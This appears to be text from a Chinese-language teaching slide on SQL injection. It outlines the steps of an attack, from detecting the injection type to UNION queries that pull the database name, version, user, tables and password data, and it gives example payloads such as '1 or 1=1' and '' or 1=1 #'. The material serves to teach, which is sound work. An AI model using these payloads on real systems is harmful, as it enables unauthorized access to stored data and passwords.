

SQL Injection
通过注入恶意的SQL命令，破坏SQL查询语句的结构

查询密码并解码
判断是否存在SQL注入（字符型还是数字型）
判断字段数
使用union联合查询获取当前数据库，版本号及用户
获取数据库中的表和字段名
数字型：
select email from member where id=$id
 输入：1 or 1=1
select email from member where id=1 or 1=1

字符型：
select email from member where id='$id'
输入：1 or 1=1
select email from member where id='1 or 1=1'
输入：' or 1=1 #
select email from member where id='  ' or 1=1 # '